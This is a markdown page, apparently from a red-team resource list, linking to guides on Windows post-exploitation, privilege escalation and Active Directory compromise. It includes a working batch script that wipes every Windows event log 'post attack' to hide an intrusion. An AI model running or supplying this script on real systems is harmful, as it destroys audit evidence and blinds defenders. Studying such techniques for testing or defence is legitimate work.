 


## Post Exploitation Guides/Wikis

* [Post Exploitation Wiki](https://github.com/mubix/post-exploitation-wiki) - Post exploitation wiki.
* [Privlege escalation with Incognito](http://hardsec.net/post-exploitation-with-incognito/?lang=enPE%20with%20Incognito%C2%A0PE%20with%20Incognito) - How to use Incognito for Privilege Escalation in Windows
* [Pwning Windows Domains from the Command Line](https://crowdshield.com/blog.php?name=pwning-windows-domains-from-the-command-line) - Several tools and techniques that can be used in order to compromise an entire Active Directory domain completely from the command line.
* [Windows Post Exploitation Checklist](https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md)
* [pwnwiki](http://pwnwiki.io) - Post Exploitation Wiki (Multi-Platform)
* [Windows Domain: Pivot and Profit](http://www.fuzzysecurity.com/tutorials/25.html) - Techniques to move laterally when compromising a Windows machine.

## Post-exploitation Techniques and Commands

* [Useful Commands for Windows Administrators](http://www.robvanderwoude.com/ntadmincommands.php) - Post-exploitation techniques and commands to elicit information from shell of compromised windows machine.
* [A-Z List of Windows Shell Commands](https://ss64.com/nt/) - A-Z Listing of all Windows CMD Commands
* [Red Team Field Manual](https://github.com/Agahlot/RTFM/blob/master/rtfm-red-team-field-manual.pdf) - Windows Post-Exploitation techniques and commands.
* [Windows & Active Directory Exploitation Cheat Sheet and Command Reference](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/) - Name says it all

### Clear Log Files
A simple script to clear logs post attack.

**Create a batch file and execute it as admin.**

  @echo off
  FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
  IF (%adminTest%)==(Access) goto noAdmin
  for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
  echo.
  echo goto theEnd
  :do_clear
  echo clearing %1
  wevtutil.exe cl %1
  goto :eof
  :noAdmin
  exit
  
### Transfer files to compromised host via non-interactive shell 
